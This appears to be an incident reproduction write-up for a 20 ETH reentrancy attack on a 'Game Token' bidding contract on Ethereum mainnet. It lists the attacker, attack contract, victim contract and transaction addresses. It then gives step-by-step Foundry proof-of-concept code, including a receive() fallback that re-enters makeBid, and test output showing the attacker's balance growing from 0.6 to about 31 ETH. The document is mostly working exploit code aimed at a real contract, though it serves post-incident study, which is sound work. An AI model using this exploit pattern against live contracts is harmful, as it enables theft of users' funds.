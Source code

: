 # FLIX Token Attack Incident

## Information
+ Protocol Name: Game Token
+ Total Loss: 20 ETH
+ Network: Ethereum Mainnet
  
+ Attacker: 0x145766a51ae96e69810fe76f6f68fd0e95675a0b
+ Attack Contract: 0x8d4de2bc1a566b266bd4b387f62c21e15474d12a
+ Victim Contract: 0x52d69c67536f55efefe02941868e5e762538dbd6
+ Transaction: 0x0eb8f8d148508e752d9643ccf49ac4cb0c21cbad346b5bbcf2d06974d31bd5c4

## Reproduction
1. Add funding token and configure block number:

```solidity
uint256 constant forkBlock = 19_213_946;
address constant fundToken = address(0);
```

2. Add constant variable:

```solidity
address internal Game = 0x52d69c67536f55EfEfe02941868e5e762538dBD6;
uint256 internal lastBid = 0;
```

3. Add label in `setup` function
```solidity
vm.label(address(Game), "Game");
```

4. Add necessary interface for victim contract
```solidity
interface IGame {
    function newBidEtherMin() external view returns (uint256);
    function makeBid() external payable;
    function bidEther() external view returns (uint256);
}
```

5. Execute exploit process:
```solidity
// Helper Function
function exploit() public {
  uint256 minBidAmount = IGame(Game).newBidEtherMin();
  IGame(Game).makeBid{value: minBidAmount + 1}();
}
```

```solidity
// Fallback & Receive Function
receive() external payable {
  uint256 minBidAmount = IGame(Game).newBidEtherMin();
  if (address(this).balance > minBidAmount + 1 && Game.balance > IGame(Game).bidEther()) {
      lastBid = minBidAmount + 1;
      exploit();
  }
}
```

```Solidity
// Attack Execution
uint256 bidAmount = address(this).balance / 2;
IGame(Game).makeBid{value: bidAmount}();
exploit();
```
6. Run forge command and check the final result:

Command
```bash
forge test --mc GameTokenTest -vvv
```

Result
```bash
Ran 1 test for test/Game/PoC.t.sol:GameTokenTest
[PASS] testExploit() (gas: 2195240)
Logs:
  Attacker Token Balance Before Exploit:  600000000000000000
  Attacker Token Balance After Exploit:  31364999999999999891

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 3.90s (19.85ms CPU time)
```